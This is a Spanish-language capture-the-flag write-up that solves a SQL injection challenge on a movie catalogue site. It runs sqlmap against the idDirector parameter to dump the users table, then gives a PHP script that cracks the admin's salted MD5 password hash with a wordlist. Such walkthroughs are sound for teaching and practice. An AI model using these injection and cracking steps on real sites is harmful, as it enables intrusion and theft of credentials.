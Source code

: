 El ultimo reto del capture the flag consistía en explotar una **vulnerabilidad** de **inyección SQL** y obtener la contraseña en texto plano del administrador del sitio. El reto, al inicio nos presenta un sitio web con un catalogo de películas, podemos consultar las películas de un director en especifico con una URL similar a la siguiente:

```bash
http://54.68.213.190/busqueda.php?idDirector=1
```

Esta claro que si queremos inyectar comandos **SQL** tendremos que empezar por el parámetro **idDirector** y para hacerlo de una forma mas rápida y automática utilizaremos la herramienta **sqlmap** [http://sqlmap.org/](http://sqlmap.org/) que viene instalada en nuestro **Kali**.

```bash
$ sqlmap –url=http://54.68.213.190/busqueda.php?idDirector=1 –level=1 –risk=3 –all
```

[![ctf_cpmx_15](/images/ctf_cpmx_15.png)](http://www.alevsk.com/2015/07/solucion-al-reto-capture-the-flag-de-cpmx6/ctf_cpmx_15/)

La herramienta nos hace un dump de la tabla de usuarios y vemos que los passwords son almacenados no en texto plano sino cifrados (probablemente en **md5**), también observamos que la tabla contiene un campo de **salt** y un valor que muy seguramente fue utilizado para calcular el hash de la contraseña.

Pues manos a la obra (o mas bien dicho, al teclado), el reto nos pide encontrar la contraseña del usuario maria (que es el **administrador** del sitio), podemos hacer rápidamente un script para intentar crackear el **hash**.

```php
<?php  
$salt = "WDUOPALD6N";  
$hash = "fa38084963f74741ea1184963fa2cd91";

$handle = fopen("pass2.txt", "r");  
if ($handle) {  
while (($line = fgets($handle)) !== false) {

$line = str_replace("\n", "", $line);

if(md5($salt.$line) == $hash || md5($line.$salt) == $hash)  
{  
echo $line . " OK! \n";  
exit();  
} else {  
echo $line . ":" . md5($salt.$line) . " Nop\n";  
}  
}

fclose($handle);  
} else {  
echo "file error \n";  
} 

?>
```
